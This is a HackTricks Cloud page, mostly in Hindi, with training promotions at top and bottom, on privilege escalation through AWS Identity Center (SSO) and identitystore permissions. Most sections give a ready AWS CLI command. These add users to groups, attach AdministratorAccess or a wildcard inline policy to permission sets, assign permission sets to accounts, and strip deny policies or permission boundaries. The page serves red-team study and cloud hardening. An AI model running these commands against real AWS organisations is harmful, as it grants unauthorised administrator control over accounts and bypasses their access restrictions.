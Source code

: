 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट** रूप से, केवल **प्रबंधन खाता** से **अनुमतियों** वाले **उपयोगकर्ता** IAM पहचान केंद्र तक पहुँचने और **नियंत्रण** करने में सक्षम होंगे।\
अन्य खातों के उपयोगकर्ता केवल तभी अनुमति दे सकते हैं यदि खाता **प्रतिनिधि प्रशासक** है।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

इस तरह के मामलों में विशेषाधिकार बढ़ाने का एक आसान तरीका यह होगा कि उपयोगकर्ताओं के पासवर्ड को रीसेट करने की अनुमति हो। दुर्भाग्यवश, केवल उपयोगकर्ता को पासवर्ड रीसेट करने के लिए एक ईमेल भेजना संभव है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुँच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ, एक उपयोगकर्ता को एक समूह के अंदर सेट करना संभव है ताकि वह समूह की सभी अनुमतियों को विरासत में ले सके।

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक उपयोगकर्ता को दिए गए अनुमति सेट को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में है।

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

एक हमलावर जिसके पास यह अनुमति है, वह एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% hint style="warning" %}
इन अनुमतियों का दुरुपयोग करने के लिए, आपको यह जानना आवश्यक है कि **एक ग्राहक प्रबंधित नीति का नाम जो सभी खातों के अंदर है** जो प्रभावित होने वाले हैं।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण में एक उपयोगकर्ता को एक खाते के लिए एक अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

उपयोगकर्ता को सौंपे गए एक दिए गए भूमिका नाम के लिए STS अल्पकालिक क्रेडेंशियल्स लौटाता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता है जिसे प्राप्त करने का मुझे यकीन नहीं है (TODO)।

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से AWS प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से एक इनलाइन नीति से अनुमतियों को हटाने की क्रिया कर सकता है। एक इनलाइन नीति (निषेध नीति) को हटाकर **अधिक विशेषाधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से अनुमति सीमा को हटा सकता है। यह **अनुमति सीमा से दी गई अनुमति सेट पर प्रतिबंधों को हटाकर अधिक विशेषाधिकार देने** की संभावना है।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
